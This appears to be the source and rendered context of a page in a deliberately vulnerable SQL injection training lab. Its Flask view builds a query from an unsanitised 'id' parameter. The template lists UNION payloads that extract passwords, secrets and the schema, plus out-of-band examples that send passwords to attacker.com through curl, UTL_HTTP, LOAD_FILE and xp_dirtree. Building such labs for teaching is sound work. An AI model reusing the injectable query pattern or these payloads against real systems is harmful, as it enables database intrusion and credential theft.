
Page /api/stats on the committed database.
### tables this page shows
CREATE TABLE logs (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    action TEXT,
    details TEXT,
    log_time TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);

### app.py (the view)
@app.route('/api/stats')
def api_stats():
    log_id = request.args.get('id', '1')
    db = get_db()
    results = []
    executed_query = None
    error = None
    query = "SELECT * FROM logs WHERE id = " + log_id
    executed_query = query
    try:
        results = db.execute(query).fetchall()
    except sqlite3.Error as e:
        error = str(e)
    return render_template('api_stats.html',
                         results=results,
                         log_id=log_id,
                         executed_query=executed_query,
                         error=error)

### app.py (called while the page is built)
def get_db():
    if 'db' not in g:
        g.db = sqlite3.connect(DATABASE)
        g.db.row_factory = sqlite3.Row
    return g.db

### templates/api_stats.html (shortened to what this page needs)
{% extends "base.html" %}
{% block content %}
<div class="card">
    <div class="card-header">
        <span class="card-title">📡 System Logs API</span>
        <span class="badge badge-danger">Vulnerable: Simulated OOB SQLi</span>
    </div>
    <p style="color: var(--text-muted); font-size: 14px; margin-bottom: 20px;">
        This endpoint simulates <strong>Out-of-Band SQL Injection</strong> concepts.
        While SQLite lacks native network functions, this demonstrates how query results containing attacker-controlled data can be used for exfiltration.
    </p>
    <form method="GET" action="{{ url_for('api_stats') }}">
        <div style="display: flex; gap: 12px;">
            <input type="text" name="id" value="{{ log_id }}" placeholder="Log ID..." style="flex: 1;">
            <button type="submit" class="btn btn-primary">Fetch Logs</button>
        </div>
    </form>
    {% if executed_query %}
    <div class="query-box">
        <span class="label">Executed SQL Query</span>
        <code>{{ executed_query }}</code>
    </div>
    {% endif %}
    {% if results %}
    <table class="data-table">
        <thead>
            <tr><th>ID</th><th>Action</th><th>Details</th><th>Time</th></tr>
        </thead>
        <tbody>
            {% for row in results %}
            <tr>
                <td>{{ row.id }}</td>
                <td><span class="badge badge-info">{{ row.action }}</span></td>
                <td>{{ row.details }}</td>
                <td>{{ row.log_time }}</td>
            </tr>
            {% endfor %}
        </tbody>
    </table>
    {% endif %}
</div>
<div class="card">
    <div class="card-header">
        <span class="card-title">💉 Simulated OOB Payloads</span>
        <span class="badge badge-warning">Click to copy</span>
    </div>
    <div class="payload">
        <div class="payload-label">Exfiltrate user passwords into log results</div>
        1 UNION SELECT id, 'EXFIL_' || username, password, 'data_exfil' FROM users
    </div>
    <div class="payload">
        <div class="payload-label">Extract secrets/flags into the result set</div>
        1 UNION SELECT id, 'SECRET_' || secret_key, secret_value, 'exfiltrated' FROM secrets
    </div>
    <div class="payload">
        <div class="payload-label">Dump all table schemas (schema exfiltration)</div>
        1 UNION SELECT rowid, type, name || ': ' || sql, 'schema' FROM sqlite_master WHERE sql IS NOT NULL
    </div>
</div>
<div class="card" style="border-color: var(--warning);">
    <div class="card-header">
        <span class="card-title" style="color: var(--warning);">🌐 Real-World OOB Examples</span>
    </div>
    <div style="font-size: 13px; color: var(--text-muted); line-height: 1.8;">
        <p style="margin-bottom: 12px;">Other database systems have native OOB capabilities:</p>
        <div style="background: var(--bg); padding: 12px; border-radius: 8px; margin-bottom: 12px;">
            <strong style="color: var(--danger);">MySQL:</strong><br>
            <code>1 AND LOAD_FILE(CONCAT('\\attacker.com\', (SELECT password FROM users LIMIT 1), '.dns.log'))</code>
        </div>
        <div style="background: var(--bg); padding: 12px; border-radius: 8px; margin-bottom: 12px;">
            <strong style="color: var(--danger);">MSSQL:</strong><br>
            <code>1; EXEC master..xp_dirtree '\\attacker.com\test' --</code>
        </div>
        <div style="background: var(--bg); padding: 12px; border-radius: 8px; margin-bottom: 12px;">
            <strong style="color: var(--danger);">PostgreSQL:</strong><br>
            <code>1; COPY (SELECT password FROM users) TO PROGRAM 'curl attacker.com/?d=' || password --</code>
        </div>
        <div style="background: var(--bg); padding: 12px; border-radius: 8px;">
            <strong style="color: var(--danger);">Oracle:</strong><br>
            <code>1 AND UTL_HTTP.request('http://attacker.com/' || (SELECT password FROM users WHERE ROWNUM=1)) IS NOT NULL --</code>
        </div>
    </div>
</div>
{% endblock %}

### templates/base.html (style rules this page uses)
:root { --bg: #0d1117; --bg-secondary: #161b22; --border: #30363d; --text: #c9d1d9; --text-muted: #8b949e; --accent: #58a6ff; --accent-hover: #79b8ff; --danger: #f85149; --warning: #f0883e; --success: #3fb950; --info: #58a6ff; }
* { margin: 0; padding: 0; box-sizing: border-box; }
body { font-family: 'Segoe UI', system-ui, -apple-system, sans-serif; background: var(--bg); color: var(--text); line-height: 1.6; min-height: 100vh; }
.card { background: var(--bg-secondary); border: 1px solid var(--border); border-radius: 12px; padding: 24px; margin-bottom: 20px; }
.card-header { display: flex; align-items: center; justify-content: space-between; margin-bottom: 16px; }
.card-title { font-size: 18px; font-weight: 600; color: var(--text); }
.badge { display: inline-flex; align-items: center; padding: 4px 10px; border-radius: 20px; font-size: 11px; font-weight: 600; text-transform: uppercase; letter-spacing: 0.5px; }
.badge-danger { background: rgba(248, 81, 73, 0.15); color: var(--danger); border: 1px solid rgba(248, 81, 73, 0.3); }
.badge-warning { background: rgba(240, 136, 62, 0.15); color: var(--warning); border: 1px solid rgba(240, 136, 62, 0.3); }
.badge-info { background: rgba(88, 166, 255, 0.15); color: var(--accent); border: 1px solid rgba(88, 166, 255, 0.3); }
input[type="text"], input[type="password"], input[type="email"], textarea { width: 100%; padding: 10px 14px; background: var(--bg); border: 1px solid var(--border); border-radius: 8px; color: var(--text); font-size: 14px; }
.btn { display: inline-flex; align-items: center; justify-content: center; gap: 8px; padding: 10px 20px; border: none; border-radius: 8px; font-size: 14px; font-weight: 600; cursor: pointer; transition: all 0.2s; text-decoration: none; }
.btn-primary { background: var(--accent); color: white; }
.query-box { background: #0d1117; border: 1px solid var(--border); border-radius: 8px; padding: 16px; margin: 16px 0; font-family: 'Consolas', 'Monaco', monospace; font-size: 13px; overflow-x: auto; }
.query-box .label { color: var(--text-muted); font-size: 11px; text-transform: uppercase; letter-spacing: 1px; margin-bottom: 8px; display: block; }
.query-box code { color: #a5d6ff; }
.data-table { width: 100%; border-collapse: collapse; margin-top: 16px; }
.data-table th, .data-table td { padding: 12px; text-align: left; border-bottom: 1px solid var(--border); font-size: 13px; }
.data-table th { color: var(--text-muted); font-weight: 600; text-transform: uppercase; font-size: 11px; letter-spacing: 0.5px; }
.payload { background: #1a1f2e; border-left: 3px solid var(--warning); padding: 12px 16px; margin: 8px 0; border-radius: 0 8px 8px 0; font-family: 'Consolas', 'Monaco', monospace; font-size: 12px; color: #e6edf3; cursor: pointer; transition: background 0.2s; }
.payload-label { font-size: 11px; color: var(--warning); margin-bottom: 4px; font-weight: 600; }
code { font-family: 'Consolas', 'Monaco', 'Courier New', monospace; color: #a5d6ff; }

### rows in the picture
logs: id "1", action "INIT", details "Database initialized for SQLi Lab", log_time "2026-05-20 18:46:39"

### other values in the picture
{{ executed_query }} "SELECT * FROM logs WHERE id = 1"
